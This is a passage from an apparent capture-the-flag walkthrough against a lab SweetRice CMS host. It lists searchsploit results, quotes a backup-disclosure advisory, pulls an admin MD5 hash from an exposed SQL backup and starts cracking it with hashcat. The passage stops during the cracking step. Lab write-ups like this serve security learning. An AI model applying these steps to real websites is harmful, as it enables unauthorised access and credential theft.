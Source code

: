 ```bash
SweetRice 1.5.1 - Backup Disclosure                                       | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                              | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution         | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                     | php/webapps/14184.txt
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
The one with Backup Disclosure looks interesting as we did not find anything like login in gobuster.
Lets see if we can disclose anything from backup.
```bash
$ searchsploit -x php/webapps/40718.txt
Exploit: SweetRice 1.5.1 - Backup Disclosure
URL: https://www.exploit-db.com/exploits/40718
Path: /usr/share/exploitdb/exploits/php/webapps/40718.txt
File Type: ASCII text, with CRLF line terminators

Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip

```
It says we can find backup in /inc/mysql_backup. So we should browse to /content/inc/mysql_backup because content is the parent directory created to put the backup.
We find an sql file.
Lets download it.
In line 79, we find
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb"
admin: manager 
password is  a hash. Lets use hash identifier to know what type of hash.
```bash
$hash-identifier 

HASH: 42f749ade7f9e195bf475f37a44cafcb

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

```
Let us use MD5 hash
-m 0 is to specify mode 0 which RAW-MD5
```bash
$ hashcat -m 0 hashidentify --wordlist /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
```